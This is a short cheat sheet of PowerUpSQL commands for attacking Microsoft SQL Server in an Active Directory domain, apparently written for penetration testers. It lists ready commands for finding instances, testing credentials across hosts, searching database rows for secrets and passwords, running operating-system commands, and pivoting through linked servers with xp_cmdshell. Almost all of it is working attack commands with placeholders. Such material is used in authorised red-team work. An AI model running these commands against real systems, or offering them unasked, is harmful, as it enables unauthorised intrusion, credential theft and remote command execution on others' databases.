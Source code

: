 ### Source
https://raw.githubusercontent.com/NetSPI/PowerUpSQL/master/PowerUpSQL.ps1  

### Discover active directory domain SQL server (use)
```
Get-SQLInstanceDomain -Verbose -DomainController <dc> | Get-SQLServerinfo -Verbose
```

### List accessible SQL server using credentials
```
Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10 -username <user> -password <password> | Where-Object {$_.Status -like "Accessible"}
```

### Get information from specific instance
```
Get-Sqlserverinfo -instance <instance>
```

### Scan for misconfiguration
```
Invoke-sqlaudit -instance <instance>
```

### Search database rows for specific keywords (NoDefaults skip default tables)
```
Get-SQLColumnSampleData –Verbose –Keyword "secret,password" –SampleSize 10 –NoDefaults -Instance <instance>
```

### Execute command
```
Invoke-SQLOSCmd -Instance <instance> -Command '<command>' -RawResults
```

### Execute query
```
Get-SQLQuery -Instance <instance> -Query 'SELECT * FROM master..sysservers'
```

### Scan for linked databases
```
Get-SQLServerLinkCrawl -Instance <instance>
```

### Execute commands on linked instances
```
Get-SQLServerLinkCrawl -Instance <instance> -Query "exec master..xp_cmdshell '<command>'"
```

### Excute command on linked mssql instance via instance (xp_cmdshell can not be enabled by OpenQuery)
```
Get-SQLServerLinkCrawl -Instance <instance> -Query "exec master..xp_cmdshell '<command>' "
```

